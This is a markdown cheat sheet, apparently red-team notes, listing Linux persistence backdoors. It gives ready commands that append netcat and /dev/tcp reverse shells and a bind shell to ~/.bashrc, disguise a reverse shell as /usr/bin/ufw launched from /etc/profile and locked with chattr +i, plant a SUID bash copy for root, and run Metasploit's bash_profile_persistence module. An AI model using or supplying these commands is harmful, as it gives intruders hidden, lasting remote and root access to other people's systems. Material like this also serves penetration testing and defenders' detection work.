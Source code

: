 # Backdoors

## 01 - Unix Shell

### 1.1 - Bashrc

- Reverse Shell

```
$ echo "nc -e /bin/bash <IP> <PORT> 2>/dev/null &" >> ~/.bashrc

$ echo "/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1 &" >> ~/.bashrc
```

Even when the user logs out the shell will still be running.

```
$ echo "nohup <commands> &" >> ~/.bashrc
```

- Bind Shell

`$ echo "nc -e /bin/bash -lnvp 8080 &" >> ~/.bashrc`

### 1.2 - Bash Profiles

- Reverse Shell

```
$ sudo mv /usr/bin/ufw /tmp/ufw.bak

$ sudo echo "nc -e /bin/bash <IP> <PORT> 2>/dev/null &" > /usr/bin/ufw

$ sudo echo "/usr/bin/ufw &" >> /etc/profile

$ sudo echo "/usr/bin/ufw &" >> /etc/skel/.profile

$ sudo chmod +sss /usr/bin/ufw

$ chattr +i /etc/skel/.profile /etc/profile /usr/bin/ufw
```

### 1.3 - SUID

```
user@debian:~$ sudo su -
root@debian:/home/user# cp /bin/bash /tmp/junk
root@debian:/home/user# chmod +xs /tmp/junk
root@debian:/home/user# ls -l /tmp/junk
-rwsr-sr-x 1 root root 1190928 Oct 20 13:55 bash-copy
root@debian:/home/user# exit
user@debian:~$ /tmp/junk -p
root@debian:/home/user# whoami
root
```

### 1.4 - OpenSSH

TODO: Fill this info

## 02 - Metasploit

### 2.1 - Bash Profile

```
msf > use exploit/linux/local/bash_profile_persistence

msf exploit(linux/local/bash_profile_persistence) > options

Module options (exploit/linux/local/bash_profile_persistence):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   BASH_PROFILE  ~/.bashrc        yes       Target Bash profile location. Usually ~/.bashrc or ~/.bash_profile.
   PAYLOAD_DIR   /var/tmp/        yes       Directory to write persistent payload file.
   SESSION                        yes       The session to run this module on


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(linux/local/bash_profile_persistence) > set bash_profile </path/to/bash_rc_file>

msf exploit(linux/local/bash_profile_persistence) > set payload_dir </path/to/directory>

msf exploit(linux/local/bash_profile_persistence) > set lhost <IP>

msf exploit(linux/local/bash_profile_persistence) > set lport <PORT>

msf exploit(linux/local/bash_profile_persistence) > set session <session_id>

msf exploit(linux/local/bash_profile_persistence) > run
```

## References

- [Linux Backdoors and Where to Find Them](https://fahmifj.github.io/blog/linux-backdoors-and-where-to-find-them/)

- [Linode: Linux Red Team Persistence Techniques](https://www.linode.com/docs/guides/linux-red-team-persistence-techniques/)

- [Pikami: Backdooring OpenSSH Server](https://pikami.org/blog/backdooring-openssh-server/)

- [Infecting SSH Public Keys with Backdoors](https://blog.thc.org/infecting-ssh-public-keys-with-backdoors)